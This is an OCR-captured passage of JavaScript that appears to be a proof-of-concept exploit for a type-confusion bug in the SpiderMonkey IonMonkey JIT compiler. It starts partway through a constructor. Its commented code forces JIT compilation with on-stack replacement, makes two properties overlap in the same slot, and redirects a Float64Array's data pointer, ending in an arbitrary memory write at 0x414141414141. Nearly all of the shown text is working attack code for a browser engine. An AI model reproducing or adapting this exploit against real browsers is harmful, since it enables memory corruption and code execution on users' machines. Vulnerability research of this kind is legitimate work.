 ```js
    // * Trigger the "roll back" of |this| to a NativeObject with only property .a
    // * Bailout of the JITed code due to type inference changes
    this.a = val;

    // Trigger JIT compilation and OSR entry here. During compilation, IonMonkey will
    // incorrectly assume that |this| already has the final type (so already has property .x)
    for (let i = 0; i < l; i++) {}

    // The JITed code will now only have a property store here and won't update the Shape.
    this.x = x;

    if (trigger) {
        // This property definition is conditional (and rarely used) so that an inline cache
        // will be emitted for it, which will inspect the Shape of |this|. As such, .y will
        // be put into the same slot as .x, as the Shape of |this| only shows property .a.
        this.y = y;

        // At this point, .x and .y overlap, and the JITed code below believes that the slot
        // for .x still stores the UnboxedObject while in reality it now stores a Float64Array.
    }

    // This assignment will then corrupt the data pointer of the Float64Array to point to |victim|.
    this.x.data = victim;
}

for (let i = 0; i < 1000; i++) {
    new Hax(1337, 1, false);
}
let obj = new Hax("asdf", 10000000, true);

// Driver is now a Float64Array whose data pointer points to a Uint8Array.
let driver = obj.y;

// Write to address 0x414141414141 as PoC
driver[7] = 3.54484805889626e-310;
victim[0] = 42;
```